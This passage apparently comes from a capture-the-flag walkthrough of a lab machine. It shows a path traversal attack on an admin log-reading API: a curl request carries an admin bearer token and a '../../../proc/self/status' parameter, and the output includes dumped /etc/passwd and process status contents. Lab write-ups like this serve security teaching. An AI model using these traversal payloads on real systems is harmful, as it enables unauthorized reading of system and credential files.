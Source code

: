 ```
    "sync:x:4:65534:sync:/bin:/bin/sync\n",
    "games:x:5:60:games:/usr/games:/usr/sbin/nologin\n",
    "man:x:6:12:man:/var/cache/man:/usr/sbin/nologin\n",
    "lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin\n",
    "mail:x:8:8:mail:/var/mail:/usr/sbin/nologin\n",
    "news:x:9:9:news:/var/spool/news:/usr/sbin/nologin\n",
    "uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin\n",
    "proxy:x:13:13:proxy:/bin:/usr/sbin/nologin\n",
    "www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin\n",
    "backup:x:34:34:backup:/var/backups:/usr/sbin/nologin\n",
    "list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin\n",
    "irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin\n",
    "_apt:x:42:65534::/nonexistent:/usr/sbin/nologin\n",
    "nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin\n",
    "systemd-network:x:998:998:systemd Network Management:/:/usr/sbin/nologin\n",
    "systemd-timesync:x:997:997:systemd Time Synchronization:/:/usr/sbin/nologin\n",
    "dhcpcd:x:100:65534:DHCP Client Daemon,,,:/usr/lib/dhcpcd:/bin/false\n",
    "messagebus:x:101:102::/nonexistent:/usr/sbin/nologin\n",
    "systemd-resolve:x:992:992:systemd Resolver:/:/usr/sbin/nologin\n",
    "pollinate:x:102:1::/var/cache/pollinate:/bin/false\n",
    "polkitd:x:991:991:User for polkitd:/:/usr/sbin/nologin\n",
    "usbmux:x:103:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin\n",
    "sshd:x:104:65534::/run/sshd:/usr/sbin/nologin\n",
    "shirohige:x:1001:1002:White Beard:/home/shirohige:/bin/bash\n",
    "_laurel:x:999:990::/var/log/laurel:/bin/false\n"
  ],
  "Status": 201
}
```

We successfully read the file, now we can enumerate the filesystem.

```
┌──(kali㉿kali)-[/tmp]
└─$ curl "http://mywalletv1.instant.htb/api/v1/admin/read/log?log_file_name=../../../proc/self/status" -H "Authorization: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZCI6MSwicm9sZSI6IkFkbWluIiwid2FsSWQiOiJmMGVjYTZlNS03ODNhLTQ3MWQtOWQ4Zi0wMTYyY2JjOTAwZGIiLCJleHAiOjMzMjU5MzAzNjU2fQ.v0qyyAqDSgyoNFHU7MgRQcDA0Bw99_8AEXKGtWZ6rYA" | jq .
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100  1912  100  1912    0     0  10027      0 --:--:-- --:--:-- --:--:-- 10063
{
  "/home/shirohige/logs/../../../proc/self/status": [
    "Name:\tpython3\n",
    "Umask:\t0022\n",
    "State:\tS (sleeping)\n",
    "Tgid:\t1334\n",
    "Ngid:\t0\n",
    "Pid:\t1334\n",
    "PPid:\t1\n",
    "TracerPid:\t0\n",
    "Uid:\t1001\t1001\t1001\t1001\n",
    "Gid:\t1002\t1002\t1002\t1002\n",
    "FDSize:\t128\n",
    "Groups:\t1001 1002 \n",
    "NStgid:\t1334\n",
    "NSpid:\t1334\n",
    "NSpgid:\t1334\n",
    "NSsid:\t1334\n",
    "Kthread:\t0\n",
    "VmPeak:\t  201928 kB\n",
    "VmSize:\t  136408 kB\n",
    "VmLck:\t       0 kB\n",
    "VmPin:\t       0 kB\n",
```
